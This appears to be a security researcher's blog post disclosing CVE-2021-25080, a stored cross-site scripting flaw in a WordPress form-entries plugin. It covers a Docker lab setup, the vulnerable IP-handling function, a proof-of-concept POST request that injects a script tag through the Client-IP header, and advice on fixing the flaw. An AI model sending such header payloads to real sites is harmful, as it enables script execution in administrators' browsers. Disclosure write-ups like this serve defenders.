 +++
title = 'CVE-2021-25080 – finding Cross-Site-Scripting vulnerabilities in headers'
date = 2021-07-02T09:44:23+02:00
tags = ["sec", "docker", "dsp", "hacking", "cve"]
draft = true
+++


A year ago I discovered a stored XSS in Contact Form Entries plugin. It is an interesting case of Cross-Site Scripting vulnerability in headers.

## Introduction
CRM Form Entries is a plugin that automatically saves form submissions from several WordPress forms:

[Database for Contact Form 7, WPforms, Elementor forms](https://wordpress.org/plugins/contact-form-entries/)
After a long time I finally received a CVE for this discovery that you can find on the specific of the website with all the other CVEs and Written Exploits.


## Setup Environment
I setup a Docker environment containing WordPress with the vulnerable plugin:
```
version: '3.8'
  services:
    wp:
      image: 'dockersecplayground/wp:5.6'
      stdin_open: true
      tty: true
      ports:
        - '11080:80'
        - '9000:9000'
      depends_on:
        - db
      environment:
        - WORDPRESS_DB_HOST=db
        - WORDPRESS_DB_USER=dsp
        - WORDPRESS_DB_PASSWORD=dsp
        - WORDPRESS_DB_NAME=wordpress
      volumes:
        - './xdebug.ini:/usr/local/etc/php/conf.d/xdebug.ini'
    db:
      image: 'dockersecplayground/mysql_dsp:latest'
      stdin_open: true
      tty: true
      environment:
        - MYSQL_DATABASE=wordpress
        - MYSQL_USER=dsp
        - MYSQL_PASSWORD=dsp
        - MYSQL_RANDOM_ROOT_PASSWORD=1
  networks: {}
```

I usually use VS Code to analyze the source code; it is great as it is possible to attach to running containers by using the Docker plugin and Remote Containers plugins.

## Vulnerability Description 
CRM Form Entries CRM is vulnerable to a Stored XSS in Client IP field.

When the user uploads a new form, CRM Form Entries checks for the client IP in order to save information about the user:

```
public function get_ip() //wp-content/plugins/contact-form-entries/contact-form-entries.php, line 1388
```

![alt text](/images/cve-form-entries.png)
The user can set an arbitrary “HTTP_CLIENT_IP” value, and the value is stored inside the database.
## Proof of Concept
Suppose we have the following form:

Intercept the POST request and insert the following Client-IP header:

```
POST /wp-json/contact-form-7/v1/contact-forms/1376/feedback HTTP/1.1 Accept: application/json, */*;q=0.1 Accept-Language: en-GB,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: multipart/form-data; boundary=---------------------------9885500162977152723644841236 Content-Length: 963 Connection: close Client-IP: <script>alert(/1/)</script> Cookie: vx_user=61c2ecea43ad6164016458635903967  -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7"  1376 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_version"  5.5.3 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_locale"  en_US -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_unit_tag"  wpcf7-f1376-p1701-o1 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_container_post"  1701 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_posted_data_hash"  3e8ce0f47face5a3318813e733c3c774 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="text-42"  Test -----------------------------9885500162977152723644841236--
```
The request is accepted, and the code navigates the section $_SERVER[‘HTTP_CLIENT_IP’]  , IP is injected and saved inside the database.When the administrator clicks on the entry element:


The XSS is triggered:
![alt text](/images/cve-trashentries.png)

## Recommendations for Pentesters
When you explore Cross-Site-Scripting bugs, always checks for inputs that are not usually used to be reflected in the output. When I was looking for vulnerabilities in the plugin, I looked at my IP address in View Section, so I looked for the entrypoint of the IP address in the database, and I found the get_ip() vulnerable function.


## Recommendations for Developers
Sanitize the user input by using safe libraries, or HTML escaping libraries. In WordPress it is possible to use `esc_html()` function (https://developer.wordpress.org/reference/functions/esc_html/). Otherwise, OWASP offers a great API developer: https://owasp.org/www-project-enterprise-security-api/https://owasp.org/www-project-enterprise-security-api/
















